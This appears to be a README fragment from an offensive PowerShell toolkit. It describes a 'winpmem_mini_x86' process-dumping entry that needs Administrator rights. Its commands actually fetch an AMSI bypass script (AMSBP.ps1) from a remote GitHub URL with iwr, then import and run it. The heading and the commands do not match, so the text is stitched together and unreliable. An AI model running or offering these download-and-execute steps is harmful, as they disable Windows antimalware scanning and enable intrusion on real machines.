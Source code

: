 ## winpmem_mini_x86.exe

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|winpmem_mini_x86|Dump processes data|Administrator|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```